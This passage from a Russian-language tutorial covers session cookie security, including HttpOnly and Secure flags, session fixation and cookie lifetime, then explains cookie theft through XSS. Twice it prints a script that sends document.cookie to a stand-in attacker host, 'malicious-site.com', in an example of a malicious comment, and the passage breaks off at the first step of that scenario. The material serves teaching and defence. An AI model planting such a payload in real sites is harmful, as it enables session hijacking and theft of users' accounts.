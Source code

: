 #### Риски и меры предосторожности

- **Риск кражи cookie**:
  - Если злоумышленник получит доступ к session ID, он сможет выдать себя за пользователя. Для предотвращения этого рекомендуется использовать флаги `HttpOnly` и `Secure`, а также шифрование данных через HTTPS.

- **Риск фиксации сессии**:
  - Злоумышленник может попытаться использовать заранее известный session ID. Для защиты от этого рекомендуется обновлять session ID после входа пользователя в систему.

- **Ограничение времени действия**:
  - Установите короткий срок действия для сессионных cookie, чтобы минимизировать их ценность для злоумышленников.

Cookie являются мощным инструментом для управления доступом и идентификации пользователей, но их использование требует тщательной настройки и соблюдения мер безопасности.

## Как злоумышленники могут украсть сессионные cookie?

Сессионные cookie являются важным элементом безопасности веб-приложений, но они также могут стать целью злоумышленников. Рассмотрим основные способы, которыми могут быть украдены сессионные cookie.

### XSS (Cross-Site Scripting)

XSS (Cross-Site Scripting) — это тип атаки, при котором злоумышленник внедряет вредоносный скрипт в веб-страницу, которая затем выполняется в браузере жертвы. Эта атака позволяет злоумышленнику получить доступ к данным пользователя, включая сессионные cookie.

#### Как вредоносный скрипт может получить доступ к cookie?

Когда веб-приложение не фильтрует или не экранирует пользовательский ввод, злоумышленник может внедрить JavaScript-код, который будет выполнен в браузере других пользователей. Этот код может использовать объект `document.cookie` для получения cookie текущей сессии.

Пример вредоносного скрипта:
```html
<script>
    fetch('https://malicious-site.com/steal-cookie', {
        method: 'POST',
        body: document.cookie
    });
</script>
```

Этот скрипт отправляет содержимое cookie на сервер злоумышленника. Если cookie содержит session ID, злоумышленник может использовать его для захвата сессии пользователя.

#### Пример сценария атаки

1. **Внедрение скрипта**:
   Злоумышленник находит уязвимость XSS в веб-приложении, например, в форме комментариев. Он оставляет комментарий с вредоносным кодом:
   ```html
   <script>
       fetch('https://malicious-site.com/steal-cookie', {
           method: 'POST',
           body: document.cookie
       });
   </script>
   ```
